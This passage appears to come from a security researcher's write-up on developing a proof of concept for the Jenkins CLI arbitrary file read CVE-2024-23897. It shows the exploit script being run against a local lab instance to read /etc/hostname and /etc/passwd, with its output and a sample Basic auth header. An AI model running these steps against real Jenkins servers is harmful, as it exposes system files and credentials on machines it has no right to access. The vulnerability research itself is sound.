 
I utilized Burp's "copy-as-curl" option to extract the bytecode post data. Subsequently, I used Python's requests library to script the sending of the two requests sequentially. Unfortunately, the script consistently resulted in a 500 status code.

```bash
❯ python poc.py
[i] Target URL http://localhost:1234/cli?remoting=false
Exception raised: 500 Server Error: Server Error for url: http://localhost:1234/cli?remoting=false
```

Revisiting Burp, I observed that both requests occurred nearly simultaneously. To account for this, I adjusted the script to send the requests concurrently via threading. While this approach proved successful at times, it was inconsistent. Analyzing Burp's history, I noticed that the order was occasionally swapped for requests resulting in timeouts. To mitigate this, I introduced a 0.1-second delay to ensure that one request doesn't disconnect without receiving a response. Now, with the [modified Python script](https://github.com/AbraXa5/Jenkins-CVE-2024-23897/blob/main/CVE-2024-23897.py), I can exploit the vulnerability to read file contents.

```bash
❯ python CVE-2024-23897.py --url 'http://127.0.0.1:1234/' --file '/etc/hostname'
[i] Vulnerable to CVE-2024-23897 (Jenkins v2.441 <= 2.441)
[*] Target URL http://127.0.0.1:1234/cli?remoting=false
[*] Attempting to read /etc/hostname
[i] Download request done
[+] Found data, printing...


ERROR: No such agent "jenkins_vuln_instance" exists.

[i] Upload request done
[i] All threads completed
```

However, despite this approach, I encountered difficulties retrieving larger files such as `/etc/passwd`. The connection consistently terminated before completing the second upload request. I added a timeout to the requests to fix this.

```bash
❯ python CVE-2024-23897.py --url 'http://127.0.0.1:1234/' --file '/etc/passwd' --method 1
[i] Vulnerable to CVE-2024-23897 (Jenkins v2.441 <= 2.441)
[*] Target URL http://127.0.0.1:1234/cli?remoting=false
[*] Attempting to read /etc/passwd
[i] Download request done
[+] Found data, printing...

[X] Download request failed: ("Connection broken: InvalidChunkLength(got length b'\\x00', 0 bytes read)", InvalidChunkLength(got length b'\x00', 0 bytes read))
[i] Upload request done
[i] All threads completed
```

> _While I opted for Anonymous Read Access for PoC, the script can easily be adapted to include the `Authorization: Basic YWJyYXhhczphYnJheGFz` header for each request if you wish to test with authenticated users._
